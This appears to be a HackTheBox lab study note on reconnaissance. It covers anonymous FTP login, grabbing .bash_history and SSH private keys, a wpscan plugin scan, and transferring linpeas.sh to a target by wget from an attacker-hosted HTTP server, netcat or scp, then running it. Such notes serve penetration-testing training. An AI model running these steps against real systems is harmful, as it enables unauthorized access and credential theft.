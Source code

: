 [[HackTheBox]]
# Information Gathering
### FTP
FTP is a basic method for moving files between computers over a network—think of it as a digital courier service. It allows you to upload files to a remote computer (like sending packages) or download files from it (like receiving packages).
```
ftp [IP] 21
```
anonymous:anonymous

#### Information Gathering in FTP
ls -la
get (file name)
ls -al

important for clues
get .bash-history
get .ssh

ssh directory
**id_rsa** is the private key that should be kept secret and never shared
**id_rsa.pub** is the public key that can be shared with other systems

#### Information Gathering in Wordpress
We'll enumerate plugins (-e p), skip TLS checks (--disable-tls-checks), set the plugin detection mode to passive (--plugins-detection passive), and use 100 threads (-t 100) to speed up the enumeration.
```
wpscan -e p --url https://10.129.12.10 --disable-tls-checks --no-banner --plugins-detection passive -t 100
```

#### Linux System Enumeration

- System Information: OS version, kernel version, architecture, and installed patches

- User Information: Current user privileges, all users on the system, sudo rights

- Network Information: Network interfaces, routing tables, active connections

- Running Services: Active processes, listening ports, scheduled tasks

- File System: Interesting files, permissions issues, mounted drives

- Installed Software: Applications, versions, potential vulnerabilities

- Security Mechanisms: Firewall rules, SELinux status, AppArmor profiles

### ✅ 1. **Using `wget` or `curl` (recommended)**

If the target has internet access, **host `linpeas.sh` locally** and download it from the target:

#### Step A: Start a simple HTTP server on your machine (local):

In the directory where `linpeas.sh` is located, run:
python3 -m http.server 8000
Step B: On the target machine, run either:
wget http://<your_ip>:8000/linpeas.sh

### ✅ 3. **Using Netcat (nc)**

#### Step A: On your machine (attacker), run:
nc -lvnp 4444 < linpeas.sh
Step B: On the target:
nc <your_ip> 4444 > linpeas.sh
chmod +x linpeas.sh

✅ 4. **Using SCP (if SSH is accessible and you have credentials)**
scp linpeas.sh user@target:/tmp/

After Transfer:
chmod +x linpeas.sh
./linpeas.sh
